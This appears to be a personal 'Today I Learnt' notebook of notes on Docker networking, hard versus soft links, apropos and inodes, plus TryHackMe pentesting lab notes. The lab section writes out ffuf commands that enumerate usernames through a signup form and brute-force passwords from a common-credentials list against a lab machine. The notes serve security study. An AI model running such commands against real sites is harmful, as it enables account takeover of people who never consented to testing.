 # Today-I-Learnt

## TIL 05/06/2022

### Docker Network

* You can connect docker containers and services with each other as well as to non-docker workloads

* Docker is a software to build and run containers(_Containers are lightweight packages of your application code together with dependencies such as specific versions of programming language runtimes and libraries required to run your software services._) whereas Kuberentes is an orchestration tool i.e it is used to operate multiple containers at a large scale .

* Docker manipulates iptable rules for networking

* Docker also provides a system for scaling called __Docker Swarm__

* Docker network drivers (bridge, host, overlay, ipvlan, macvlan, none). You can also use third party plugins

* User-defined bridge networks are best when you need multiple containers to communicate on the same Docker host. [Default network](https://docs.docker.com/network/network-tutorial-standalone/)

* [Host networks](https://docs.docker.com/network/network-tutorial-host/) are best when the network stack should not be isolated from the Docker host, but you want other aspects of the container to be isolated.

* [Overlay networks](https://docs.docker.com/network/network-tutorial-overlay/) are best when you need containers running on different Docker hosts to communicate, or when multiple applications work together using swarm services.

* [Macvlan networks](https://docs.docker.com/network/network-tutorial-macvlan/) are best when you are migrating from a VM setup or need your containers to look like physical hosts on your network, each with a unique MAC address.

* Third-party network plugins allow you to integrate Docker with specialized network stacks.

### [Docker and Iptables](https://docs.docker.com/network/iptables/)


### Linux Monitoring


### Tryhackme
#### Course 1. Jnr Pentester 
##### Chapter 1. Authentication Bypass
```bash
# Fuzzing a username
# Which ever field needs to be fuzzed should have a value set as 'FUZZ' 
# '-mr' is the flag used to slect what is the valid output we are looking for in the page
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists" 

# Fuzzing password
# When we pass the file as values to the field we use '-w'
# -fc flag is used for status code we are looking for
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.228.119/customers/login -fc 200

```

## TIL 06/06/2022
### Tryhackme
#### Course 1. Jnr Pentester 
##### Chapter 2. Burp suite 
1. Burp suite Repeater
2. Burp suite Intruder
3. Burp suite extender

## TIL 07/06/2022



## TIL 08/06/2022


## TIL 09/06/2022
### Difference betweek Hardlink and Softlink

__Hard Link__ 
1. will act as a copy i.e it will have content of the original file and will not get deleted if the original gets deleted
2. Same Inode number. 
3. Only a super user can create a hardlink for directory
4. A Hard link links files and directories inside the same file system
5. Compareively faster

__Soft Link__ _(Symbolic Link)_ 
1. is just a pointer or reference to the original file 
2. Name-based reference to file


## TIL 12/06/2022
### How to get list of available tools/coomands related to something in linux
```bash
apropos
```
For an example if you want to know about all the available commands/tools in the OS related to disk you can use the below step
```bash
apropos disk

# Output 
DiskUnmountWatcher(8)    - watches for disk unmount and remove cached credentials
FDERecoveryAgent(8)      - Full Disk Encryption Key Recovery Transmission Agent
NRDUpdated(8)            - The Network Recovery on Disk Update daemon
UnmountAssistantAgent(8) - Provides help when a disk can't be ejected
asr(8)                   - Apple Software Restore; copy volumes (e.g. from disk images)
attach_automation_image(8), -(8) - ."====================== attach_automation_image attach and initialize disk images for automation_trampoline(8) ." ."
bitesize.d(1m)           - analyse disk I/O size by process. Uses DTrace
bless(8)                 - set volume bootability and startup disk options
df(1)                    - display free disk space
diskarbitrationd(8)      - disk arbitration daemon
diskimagesiod(8)         - Handles I/O for disk images
disklabel(8)             - manipulate and query an Apple Label disk label
diskmanagementd(8)       - DiskManagement.framework server
diskmanagementstartup(8) - DiskManagement.framework helper tool
disktool(8)              - disk support tool
diskutil(8)              - modify, verify and repair local disks
dmc(1)                   - controls the Disk Mount Conditioner
du(1)                    - display disk usage statistics
fdisk(8)                 - DOS partition maintenance program
hdid(8)                  - historical mechanism for attaching disk images
hdiejectd(8)             - disk image management daemon
hdik(8)                  - lightweight tool to attach and mount disk images in-kernel
hdiutil(1)               - manipulate disk images (attach, verify, create, etc)
hotspot.d(1m)            - print disk event by location. Uses DTrace
htcacheclean(8)          - Clean up the disk cache
iopattern(1m)            - print disk I/O pattern. Uses DTrace
iopending(1m)            - plot number of pending disk events. Uses DTrace
iotop(1m)                - display top disk I/O events by process. Uses DTrace
netbootdisk(8)           - find local drive to use with NetBoot
pdisk(8)                 - Apple partition table editor
pkgbuild(1)              - Build a macOS Installer component package from on-disk files
purge(8)                 - force disk cache to be purged (flushed and emptied)
quota(1)                 - display disk usage and limits
seeksize.d(1m)           - print disk event seek report. Uses DTrace
snmpdf(1)                - display disk space usage on a network entity via SNMP
sync(8)                  - force completion of pending disk writes (flush cache)
Apache2::Reload(3pm)     - Reload Perl Modules when Changed on Disk
:
```
### Inodes 
#### Resources
1. https://docs.rackspace.com/support/how-to/what-are-inodes-in-linux/#:~:text=What%20is%20an%20inode%3F,blocks%20of%20each%20file's%20data.
2. https://syedali.net/2015/02/08/understanding-inodes/
3. https://www.javatpoint.com/linux-inodes

* Linux® must allocate an index node (inode) for every file and directory in the filesystem. Inodes do not store actual data. Instead, they store the metadata where you can find the storage blocks of each file’s data.
* The following metadata exists in an inode:
1. File type
2. Permissions
3. Owner ID
4. Group ID
5. Size of file
6. Time last accessed
7. Time last modified
8. Soft/Hard Links
9. Access Control List (ACLs)





